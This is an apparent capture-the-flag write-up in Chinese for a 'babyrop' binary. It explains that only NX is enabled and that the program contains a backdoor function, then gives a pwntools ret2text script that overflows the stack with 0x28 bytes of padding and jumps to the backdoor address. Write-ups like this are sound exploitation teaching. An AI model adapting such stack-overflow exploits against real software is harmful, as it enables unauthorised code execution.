



使用checksec 检查程序，就开了一个栈不可执行



逆向程序发现后门



查看主程序逻辑



那么就是一个很简单的ret2text了

```python
# -*- encoding: utf-8 -*-
from pwn import * 
binary = './babyrop'

elf = ELF(binary)
libc = elf.libc

p = process(binary)
# p = remote(host,port)

backdoor =0x401196
payload = 'a'*0x28 + p64(backdoor)

p.send(payload)

p.interactive()
```

